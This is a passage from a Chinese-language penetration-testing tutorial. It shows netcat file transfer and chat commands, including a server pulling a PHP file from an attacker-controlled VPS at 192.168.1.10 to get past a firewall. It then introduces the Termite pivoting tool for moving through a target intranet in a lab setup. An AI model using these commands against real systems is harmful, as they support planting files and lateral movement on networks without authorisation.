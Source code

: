 **②** 反向传输：本地启动文件发送命令，服务器主动连接下载文件

```
`#本地启动文件发送命令，通过9992端口发送文件``nc -l -p 9992 < 1.php`
```

```
`#服务器执行命令下载192.168.1.10:9992端口文件，并把文件存到当前目录文件夹2.php``nc 192.168.1.10 9992 >2.php`
```

vps本地监听，服务器连接vps可以将文件下载到本地。可利用此特性躲避防火墙。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

###   

### **2.4 NC通信**  

```
`#开启监听``nc -l -p 12345``#连接。形成不加密聊天室``nc 192.168.1.10 12345`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

  

---

**3.Termite工具**  

------------------

```
`#软件作者教学视频：``http://rootkiter.com/toolvideo/toolmp4/1maintalk.mp4``http://rootkiter.com/toolvideo/toolmp4/2socks.mp4``http://rootkiter.com/toolvideo/toolmp4/3lcxtran.mp4``http://rootkiter.com/toolvideo/toolmp4/4shell.mp4``http://rootkiter.com/toolvideo/toolmp4/5file.mp4``#项目地址:` `http://rootkiter.com/Termite`
```

Termite是一款极度小巧灵活的跳板机。程序分为两部分,admin(控制端)和agent(代理端节点),admin和agent所有选项用途均一致：

```
 `-l 指定本地socks端口,等待远程连接` `-c 指定远程socks机器ip` `-p 指定远程socks机器端口`
```

* * *

###   

### **3.1 本地模拟环境**

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

最终目的：通过Termite工具代理使物理机灵活穿梭于目标内网(目前物理机只能和win08桥接网卡通信)  

* * *
